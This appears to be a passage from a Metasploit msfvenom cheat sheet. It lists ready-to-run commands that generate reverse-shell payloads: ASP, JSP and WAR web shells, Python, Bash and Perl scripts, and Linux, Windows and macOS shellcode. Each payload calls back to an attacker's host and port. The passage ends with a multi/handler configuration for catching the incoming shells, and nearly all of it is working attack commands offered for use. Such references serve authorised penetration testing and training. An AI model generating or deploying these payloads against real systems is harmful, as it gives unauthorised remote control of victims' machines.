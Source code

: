       *ASP*

      `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp`
      
      *JSP*

      `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp`
      
      *WAR*

      `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war`
      
      **Scripting Payloads**
      
      *Python*

      `msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py`
      
      *Bash*

      `msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh`
      
      *Perl*

      `msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl`
      
      **Shellcode**
      
      For all shellcode see ‘msfvenom –help-formats’ for information as to valid parameters. Msfvenom will output code that is able to be cut and pasted in this language for your exploits.

      *Linux Based Shellcode*

      `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>`
      
      *Windows Based Shellcode*

      `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>`
      
      *Mac Based Shellcode*

      `msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>`

      **Handlers**
      Metasploit handlers can be great at quickly setting up Metasploit to be in a position to receive your incoming shells. Handlers should be in the following format.

         use exploit/multi/handler
         set PAYLOAD <Payload name>
         set LHOST <LHOST value>
         set LPORT <LPORT value>
         set ExitOnSession false
         exploit -j -z
      